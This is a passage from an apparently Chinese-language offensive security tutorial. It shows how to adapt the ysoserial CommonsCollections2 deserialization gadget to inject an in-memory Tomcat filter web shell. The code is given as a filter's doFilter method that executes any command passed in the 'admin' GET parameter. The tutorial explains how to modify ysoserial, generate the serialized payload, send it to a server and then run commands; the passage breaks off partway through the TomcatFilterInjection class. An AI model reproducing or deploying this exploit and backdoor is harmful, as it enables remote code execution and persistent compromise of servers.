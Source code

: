     
      @Override    public void doFilter(ServletRequest req, ServletResponse res,                         FilterChain filterChain) throws IOException, ServletException {        HttpServletRequest request = (HttpServletRequest) req;        if (request.getParameter("admin")!=null){            Runtime.getRuntime().exec(request.getParameter("admin"));        }        filterChain.doFilter(req, res);    }  
        @Override    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {  
        }  
        @Override    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)        throws TransletException {  
        }  
        @Override    public void init(FilterConfig filterConfig) throws ServletException {  
        }  
        @Override    public void destroy() {  
        }}

对于第一处重载，只是把`command`改为了`_class`并删除了无用的参数，第二处重载则从通过Javaassist技术制作类并获取字节码变为直接获取字节码，因为我们直接编写了类文件

然后将`payloads/CommonsCollections2`复制出一个新版本，命名为`CommonsCollections2ForClassInjection`

将`command`参数重构为`payloadName`，变为注入的类名来使用，之后可以方便调整为使用`ServletInjection`等其它内存马

把这一句进行修改

  * 

    
    
    final Object templates = Gadgets.createTemplatesImpl(command);

换为如下，直接通过类名获取字节码

  * 

    
    
    final Object templates = Gadgets.createTemplatesImpl(Class.forName("ysoserial.shells."+payloadName));

启动参数配置如下

![](https://gitee.com/fuli009/images/raw/master/public/20220216084005.png)

将生成的`output.serial`文件打到服务器上，然后在访问任意路径时，带上GET参数`admin`就可以执行命令了

可以发现我给自己起的Payload名字是`TomcatFilterInjection`，把它放在如图的位置

![](https://gitee.com/fuli009/images/raw/master/public/20220216084007.png)

Payload代码如下，大家也可以自己制作`ServletInjection`或者`ListenerInjection`作为Payload

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package ysoserial.shells;  
    import com.sun.org.apache.xalan.internal.xsltc.DOM;import com.sun.org.apache.xalan.internal.xsltc.TransletException;import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;import com.sun.org.apache.xml.internal.serializer.SerializationHandler;import org.apache.catalina.Context;import org.apache.catalina.core.ApplicationFilterConfig;import org.apache.catalina.core.StandardContext;import org.apache.catalina.loader.WebappClassLoaderBase;import org.apache.tomcat.util.descriptor.web.FilterDef;import org.apache.tomcat.util.descriptor.web.FilterMap;  
    import javax.servlet.*;import javax.servlet.http.HttpServletRequest;import java.io.IOException;import java.lang.reflect.Constructor;import java.lang.reflect.Field;import java.util.Map;  
    public class TomcatFilterInjection extends AbstractTranslet implements Filter {  
        static {        try {  